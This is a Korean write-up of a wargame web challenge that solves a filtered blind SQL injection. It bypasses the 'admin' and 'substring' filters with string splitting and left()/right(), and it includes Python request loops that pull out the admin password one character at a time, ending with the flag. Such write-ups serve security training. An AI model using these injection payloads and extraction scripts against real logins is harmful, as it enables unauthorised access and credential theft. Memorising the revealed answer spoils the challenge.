




# [WEB] 23

### 초기화면

어려운 블라인드 sql 인젝션이라고 한다.

---
### 풀이
22번과 다른점은 무엇인가?? 
1. or가 허용
2. admin로그인인데 admin을 못쓰게 함, substring도 필터링
3. 글자수 제한이 있다. 30자이하

30자를 넘기면 "No hack"이 출력된다.


일단 글자수를 파악한다. admin은 문자열을 쪼개서 우회한다.
즉 다음과 같이 쿼리를 구성한다

`ad'+'min' and len(pw)<13--` 

이런 식으로 22번과 동일하다. 그러면 pw는 12자임을 알 수 있다.

이제 파이썬코드로 비밀번호를 알아내자!
22번에서 사용한 소스코드를 수정해야 한다. 왜냐하면 쿼리가 너무 길고 admin, substring도 필터링된다. 

그래서 left, right 함수를 활용한다.

>left(str,n) : str의 왼쪽에서부터 n글자 잘라내서 반환
>
>right(str,n) : str의 오른쪽에서부터 n글자 잘라내서 반환

```python
for k in range(0, len(wordlist)):
    query = "ad'+'min' and left(pw,1)='"+wordlist[k]+"'--" #
    response = requests.get(url, params={'id': query, 'pw': 'qwerty'}, cookies=cookie)
    
    if "OK" in response.text:
        result += wordlist[k]
        break

print("[!]"+ result + "입니다.")
```
left나 right는 인덱싱으로 접근이 불가능하다. 

그래서 일단 앞글자를 알아낸다.

첫글자는 `v`. 즉 id가 admin인 유저의 패스워트 첫글자가 v라는 것.

그 후 코드를 조금 바꾼다..
```python
result  = "v"
 
 
for i in range(1, 12):
    print('#'+str(i+1))
    for k in range(0, len(wordlist)):
        query = "'or(left(pw,"+str(i+1)+")='"+result+wordlist[k]+"')--" #20+(result+1)
        print(query)
        response = requests.get(url, params={'id': query, 'pw': 'qwerty'}, cookies=cookie)
        
        if "OK" in response.text:
            result += wordlist[k]
            print(result)
            break
 
print("[!]" + " 최종 비밀번호는 " + result + "입니다.")
```
쿼리에서 admin을 없애고 and를 or로 바꿨다.
그리고 left의 반환값을 늘려가며 누적되는 패스워드와 비교연산을 한다.

v로 시작하는 패스워드를 찾아내는 과정이다.


`v3ryhards`라는 결과를 볼 수 있다. 위 코드의 주석처럼 쿼리문만 20글자이고 result와 찾는문자까지 해야 30이 채워진다. 즉 9개만 찾아진 것이다. 나머지 3글자도 찾아야 한다..

이 과정은 right함수를 활용해서 뒤부터 찾아야 한다. 결과만 확인하면
마지막 글자는 `i`이고 코드를 돌려보면


---

결과들을 종합하면
`v3ryhardsqli`라는 것을 알 수 있다.

---